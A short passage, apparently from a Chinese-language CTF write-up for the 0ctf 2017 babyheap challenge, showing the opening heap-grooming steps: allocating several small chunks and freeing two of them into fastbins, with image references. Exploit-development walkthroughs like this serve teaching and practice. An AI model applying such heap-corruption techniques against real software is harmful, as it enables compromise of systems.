
提前申请几个小堆块:
```c
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)
```
![img](0ctf_2017_babyheap/images/image-2.png)

free两个fastbin
```c
free(1)
free(2)
```